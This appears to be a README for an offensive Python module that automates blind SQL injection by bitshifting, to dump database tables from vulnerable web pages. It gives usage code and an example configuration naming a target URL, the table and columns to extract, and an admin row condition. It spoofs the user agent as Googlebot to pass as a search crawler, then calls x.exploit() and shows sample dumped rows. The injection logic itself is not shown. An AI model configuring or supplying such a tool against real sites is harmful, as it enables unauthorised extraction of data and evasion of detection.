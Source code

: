 # Blind SQL Injection via Bitshifting

This is a module that performs blind SQL injection by using the bitshifting method to **calculate** chars instead of guessing them. It requires exactly 8 requests per character. Further efficency is possible in some cases with a few modifications.

Method by **Jelmer de Hen** (https://www.exploit-db.com/papers/17073/)

Implementation coded by **Eclipse** of **Team Salvation** (http://ljdbosgro7jj4z7r.onion)

## Usage
```
import blind-sql-bitshifting as x

# Edit this dictionary to configure attack vectors
x.options
```

### Example configuration: 

```
# Vulnerable link
x.options["target"] = "http://www.example.com/index.php?id=1",

# Specify cookie (optional)
x.options["cookies"] = "",

# Specify a condition for a specific row, e.g. uid=1 for admin (1 = no condition)
x.options["row_condition"] = "1",

# Boolean option for following redirections
x.options["follow_redirections"] = 0,

# Specify user-agent
x.options["user_agent"] = "Mozilla/5.0 (compatible; Googlebot/2.1; +http://www.google.com/bot.html)",

# Specify table name to dump
x.options["table_name"] = "table",

# Specify columns to dump
x.options["columns"] = "col1,col2",

# String to check for on page after successful statement
x.options["truth_string"] = "<p id='header'>true</p>"
```

Then:

`x.exploit()`

This returns a 2-dimentional array, with each sub-array containing a single row, the first being the column headers.

Example output:

`[['id', 'username'], ['1', 'lol'], ['2', 'lel']]`

